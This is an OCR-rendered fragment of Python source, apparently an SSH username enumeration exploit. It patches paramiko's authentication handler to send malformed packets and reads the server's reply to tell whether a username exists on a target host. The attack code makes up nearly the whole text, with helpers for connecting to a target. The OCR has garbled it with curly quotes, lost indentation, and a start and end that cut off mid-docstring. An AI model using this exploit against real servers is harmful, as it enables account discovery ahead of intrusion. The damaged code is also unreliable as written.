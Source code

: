     """ Override correct behavior of paramiko.message.Message.add_boolean, used to produce malformed packets. """

auth_handler = paramiko.auth_handler.AuthHandler
old_msg_service_accept = auth_handler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]

def patched_msg_service_accept(*args, **kwargs):
    """ Patches paramiko.message.Message.add_boolean to produce a malformed packet. """
    old_add_boolean, paramiko.message.Message.add_boolean = paramiko.message.Message.add_boolean, patched_add_boolean
    retval = old_msg_service_accept(*args, **kwargs)
    paramiko.message.Message.add_boolean = old_add_boolean
    return retval

def patched_userauth_failure(*args, **kwargs):
    """ Called during authentication when a username is not found. """
    raise InvalidUsername(*args, **kwargs)

auth_handler._client_handler_table.update({
    paramiko.common.MSG_SERVICE_ACCEPT: patched_msg_service_accept,
    paramiko.common.MSG_USERAUTH_FAILURE: patched_userauth_failure
}) 
```

def create_socket(hostname: str, port: int) -> Union[socket.socket, None]:

“”" Small helper to stay DRY.

Returns:

socket.socket or None

“”"

# spoiler alert, I don’t care about the -6 flag, it’s really

# just to advertise in the help that the program can handle ipv6

try:

return socket.create_connection((hostname, port))

except socket.error as e:

print(f’socket error: {e}’, file=sys.stdout)

def connect(username: str, hostname: str, port: int, verbose: bool = False, **kwargs) -> None:

“”" Connect and attempt keybased auth, result interpreted to determine valid username.

Args:

username:   username to check against the ssh service

hostname:   hostname/IP of target

port:       port where ssh is listening

key:        key used for auth

verbose:    bool value; determines whether to print ‘not found’ lines or not

Returns:

None

```